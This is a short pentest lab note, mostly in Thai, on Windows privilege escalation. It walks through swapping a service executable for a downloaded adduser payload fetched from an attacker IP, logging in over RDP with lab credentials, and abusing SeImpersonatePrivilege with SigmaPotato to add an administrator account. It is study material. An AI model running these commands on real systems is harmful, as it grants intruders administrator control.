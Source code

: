 ```powershell
# ตรวจสอบสิทธิ์ของไฟล์ดังกล่าว
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe

# backup ไฟล์ BackendCacheCleanup.exe
move .\BackendCacheCleanup.exe .\BackendCacheCleanup.exe.bak

# upload payload สำหรับ adduser 
iwr -Uri http://192.168.45.168/adduser.exe -Outfile BackendCacheCleanup.exe

# ตรวจสอบโดยใช้คำสั่ง net user จะพบ dave2 
net user 

xfreerdp /v:192.168.160.220 /u:dave2 /p:'password123!' /cert-ignore /dynamic-resolution +clipboard /drive:TEST,/home/kali/    

```

 [[ExploitWinPriv]]
```powershell
whoami /priv 
# ตรวจสอบ version ของ OS และนำไปหาช่องโหว่จากข้อมูลที่ได้ 
systeminfo
```

![[winexploit-0.png]]

![[Winexploit-1.png]]

![[winexploit-2.png]]

---

[[SeImpersonatePrivilege=SigmaPotato]]

```powershell
# Try whoami /priv 
powershell -ep bypass 

C:\Users\dave> whoami /priv
whoami /priv


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeSecurityPrivilege           Manage auditing and security log          Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege***     Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled


wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe

iwr -uri http://192.168.45.168/SigmaPotato.exe -OutFile SigmaPotato.exe

# ตัวอย่างจะทำการสร้าง user: dave4 และมีรหัสผ่าน lab ไปที่ Administrators 
.\SigmaPotato "net user dave4 lab /add"
.\SigmaPotato "net localgroup Administrators dave4 /add"

```